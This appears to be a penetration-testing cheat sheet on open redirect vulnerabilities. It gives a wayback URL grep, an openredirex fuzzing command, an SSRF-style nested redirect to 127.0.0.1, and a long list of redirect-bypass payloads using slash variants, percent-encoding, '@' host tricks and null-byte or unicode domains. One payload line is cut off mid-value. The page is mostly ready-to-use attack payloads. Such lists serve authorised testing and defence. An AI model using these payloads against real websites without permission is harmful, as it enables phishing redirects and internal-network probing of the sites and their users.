 # Open Redirect

`grep "=http" wayback.txt`  <-- get all urls using wayback. This should give output that has a query parameter with the value starting with `http` , indicating a URL is in that place which is great for discovering open redirects and SSRFs.

Use [top 1000 domains](https://gist.github.com/jgamblin/62fadd8aa321f7f6a482912a6a317ea3) to find any domain is whitelisted to redirect other than company domain.

---

```
cat list_of_urls.txt | openredirex -p payloads.txt -k "FUZZ" -c 50
```

---

`example.com/query?url=example.com/redirect?url=http://127.0.0.1`


```
////example.com/%2e%2e
////example.com/%2e%2e%2f
////example.com/%2f%2e%2e
////example.com/%2f..
////example.com//
///\;@example.com
///example.com
///example.com/
///example.com/%2e%2e
///example.com/%2e%2e%2f
///example.com/%2f%2e%2e
///example.com/%2f..
///example.com//
//example.com
//example.com/
//example.com/%2e%2e
//example.com/%2e%2e%2f
//example.com/%2f%2e%2e
//example.com/%2f..
//example.com//
//google%00.com
//google%E3%80%82com
//https:///example.com/%2e%2e
//https://example.com/%2e%2e%2f
//https://example.com//
/<>//example.com
/?url=//example.com&next=//example.com&redirect=//example.com&redir=//example.com&rurl=//example.com&redirect_uri=//example.com
/?url=/\/example.com&next=/\/example.com&redirect=/\/example.com&redirect_uri=/\/example.com
/?url=Https://example.com&next=Https://example.com&redirect=Https://example.com&redir=Https://example.com&rurl=Https://example.com&redirect_uri=Https://example.com
/\/\/example.com/
/\/example.com/
/example.com/%2f%2e%2e
/http://%67%6f%6f%67%6c%65%2e%63%6f%6d
/redirect?url=//example.com&next=//example.com&redirect=//example.com&redir=//example.com&rurl=//example.com&redirect_uri=//example.com
/redirect?url=/\/example.com&next=/\/example.com&redirect=/\/example.com&redir=/\/example.com&rurl=/\/example.com&redirect_uri=/\/example.com
/redirect?url=Https://example.com&next=Https://example.com&redirect=Https://example.com&redir=Https://example.com&rurl=Https://example.com&redirect_uri=Http
//example.com@google.com/%2f..
///google.com/%2f..
///example.com@google.com/%2f..
////google.com/%2f..
https://google.com/%2f..
https://example.com@google.com/%2f..
/https://google.com/%2f..
/https://example.com@google.com/%2f..
//google.com/%2f%2e%2e
//example.com@google.com/%2f%2e%2e
///google.com/%2f%2e%2e
///example.com@google.com/%2f%2e%2e
////google.com/%2f%2e%2e
/http://example.com
/http:/example.com
/https:/%5cexample.com/
/https://%09/example.com
/https://%5cexample.com
/https:///example.com/%2e%2e
/https:///example.com/%2f%2e%2e
/https://example.com
/https://example.com/
/https://example.com/%2e%2e
/https://example.com/%2e%2e%2f
/https://example.com/%2f%2e%2e
/https://example.com/%2f..
/https://example.com//
/https:example.com
/%09/example.com
/%2f%2fexample.com
/%2f%5c%2f%67%6f%6f%67%6c%65%2e%63%6f%6d/
/%5cexample.com
/%68%74%74%70%3a%2f%2f%67%6f%6f%67%6c%65%2e%63%6f%6d
/.example.com
//%09/example.com
//%5cexample.com
///%09/example.com
///%5cexample.com
////%09/example.com
////%5cexample.com
/////example.com
/////example.com/
////\;@example.com
////example.com/
```